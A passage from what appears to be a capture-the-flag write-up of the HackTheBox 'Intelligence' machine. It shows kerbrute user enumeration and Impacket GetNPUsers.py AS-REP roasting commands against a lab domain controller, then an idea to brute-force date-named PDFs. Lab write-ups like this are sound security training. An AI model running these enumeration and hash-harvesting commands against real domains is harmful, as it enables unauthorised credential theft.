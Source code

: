 ```
kerbrute userenum --dc 10.129.44.184 -d intelligence.htb users
```

<figure><img src="../../.gitbook/assets/image (669).png" alt=""><figcaption></figcaption></figure>

No we need to check to see if either has the don’t require preauth flag set, which would leak the users hash (this is AS-REP-roasting):

```
GetNPUsers.py -no-pass -dc-ip 10.129.44.184 intelligence.htb/Jose.Williams
GetNPUsers.py -no-pass -dc-ip 10.129.44.184 intelligence.htb/William.Lee
```

<figure><img src="../../.gitbook/assets/image (670).png" alt=""><figcaption></figcaption></figure>

That got me thinking that the PDFs are named based on the date they were created. So, we can conclud that we could potentially bruteforce the PDF names and download them that are not referenced in the website.
